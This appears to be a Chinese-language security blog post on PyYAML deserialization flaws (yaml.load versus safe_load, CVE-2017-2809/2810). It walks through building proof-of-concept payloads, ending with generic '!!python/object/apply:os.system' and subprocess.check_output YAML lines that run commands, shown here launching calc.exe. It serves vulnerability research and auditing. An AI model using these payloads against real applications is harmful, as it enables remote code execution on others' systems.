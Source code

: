Title:Python PyYAML反序列化漏洞实验和payload构造
Date: 2017-09-22 10:20
Category: python安全
Tags: python,PyYAML,反序列化,漏洞
Slug: 
Authors: bit4woo
Summary: 

### 0x0 概述

**什么程序存在漏洞：**

使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

**代码审计关键词：**

import yaml

yaml.load(

**已知相关漏洞：**

Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)

<https://pypi.python.org/pypi/ansible-vault/1.0.4> ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复

Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

### 0x1 yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

除开 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的**对象转化规则**（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象

- 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml

```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```

然后在同一目录下运行如下python 代码：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

import yaml

print(yaml.load(file('sample.yml', 'r')))
```

可以看到如下结构，有“!!str”强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

图一

![img](img/pyyaml/1.png)

### **0x2** 代码执行PoC构造的尝试

**以笔者目前初浅的理解，要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。**

通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：

```
!!python/object:          =>  Constructor.construct_python_object

!!python/object/apply:    =>  Constructor.construct_python_object_apply

!!python/object/new:      =>  Constructor.construct_python_object_new

```

通过如下代码，来序列化test类中的内容，

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'yaml_gen_poc.py'

import yaml
import os

class test:
    def __init__(self):
        os.system('calc.exe')

payload =  yaml.dump(test())

fp = open('simple.yml','w')
fp.write(payload)
```

可以看到simple.yml中写入的内容如下：

```
!!python/object:yaml_gen_poc.test {}
```

再运行yaml_verify.py来验证：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'
__filename__ = "yaml_verify.py"

import yaml

yaml.load(file('simple.yml', 'r'))
```

图二

![img](img/pyyaml/2.png)

成功执行了命令，弹出计算器。但是yaml_verify.py的成功运行，需要依赖yaml_gen_poc.py，因为它会根据yml文件中的指引去读取yaml_gen_poc.py中的test这个对象（类）。如果删除yaml_gen_poc.py，也将运行失败。

### **0x3 构造通用payload**

那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。

直接修改yml文件为：

```
!!python/object:os.system ["calc.exe"]
```

再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。

修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。

```
!!python/object/apply:os.system ["calc.exe"]
```

```
!!python/object/new:os.system ["calc.exe"]
```

既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数 <https://docs.python.org/2/library/index.html>

```
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]

..................
```

本文测试代码地址

<https://github.com/bit4woo/code2sec.com/tree/master/code/YamlRCE>

### **0x4 参考**

<http://blog.talosintelligence.com/2017/09/vulnerability-spotlight-yaml-remote.html>

<http://rickgray.me/2016/03/09/pyyaml-tags-parse-to-command-execution.html>

<https://www.youtube.com/watch?v=kjZHjvrAS74>